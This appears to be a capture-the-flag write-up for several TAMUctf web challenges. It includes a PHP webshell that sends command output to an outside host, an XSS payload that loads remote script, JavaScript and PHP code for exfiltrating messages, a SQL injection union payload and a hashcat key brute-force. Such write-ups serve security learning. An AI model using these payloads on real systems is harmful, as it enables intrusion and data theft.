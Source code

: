 # Web
## Remote
The code checks keywords before filtering. Hence, injecting chracters that will be filtered later would bypass it, like `p hp`. Once uploaded a webshell, `ls /tmp | head -n 1` to enumerate the files in /tmp and find out the flag. Since the server will not respond, I set up a web server to retrieve the response with `file_get_contents`

Final payload to read the flag
```
https://remote.tamuctf.com/uploads/a883ffa3e14ef5a295448894efe2f0fc/gwm2ucz4dxgeyaavxid6kr1z28yk8f22.php?cmd=cat%20/tmp/flag-de88df3ebf2f0c4bf871ddfb2e0fcce4.txt
```

Webshell:
```php
<?php $url='http://mv.jianwei.me/?' . exec($_GET['cmd']);file_get_contents($url);?>
```

## Flipped
CBC Flip attack. Flip the 10th byte

## Forgotten Password
The code checks the email with `include`, which can be tricked with a `\x00`

## Imposter

XSS code:
```HTML
<img src=x onerror=document.body.appendChild(document.createElement('script')).src='//mv.jianwei.me/imposter.js'>
```

JS code on the server:
```JavaScript
socket.on('message', function(data){

var httpRequest = new XMLHttpRequest();
httpRequest.open('POST', 'http://mv.jianwei.me/imposter.php', true);
httpRequest.setRequestHeader("Content-type","application/x-www-form-urlencoded");
httpRequest.send('data=from flag message-' + data.content);
httpRequest.onreadystatechange = function () {
    if (httpRequest.readyState == 4 && httpRequest.status == 200) {
        var json = httpRequest.responseText;
        console.log(json);
    }
};

        }
)
socket.emit('flag');
```

PHP code on the server:
```php
<?php
$data = $_POST['data'];

$file = fopen("/tmp/data.txt", "w");

if (fwrite($file, $data)) {
} else {
}

fclose($file);
?>
```

## cereal
Replace the password md5(''). Then it is a regular SQL injection.

```
"username";s:57:"a' union select 1,2,group_concat(password),4 from users--"
"password":"d41d8cd98f00b204e9800998ecf8427e"
```

## cracked
Get the base64 decoded hex of sig. Then brute force the key with hashcat.

```
hashcat -m 150 -a 3 'beefda82f9ed4590ea38e9c5a4616397e19f9c74:{"admin": 0, "username": "guest"}' '?a?a?a?a?a?a'

beefda82f9ed4590ea38e9c5a4616397e19f9c74:{"admin": 0, "username": "guest"}:6lmao9
```
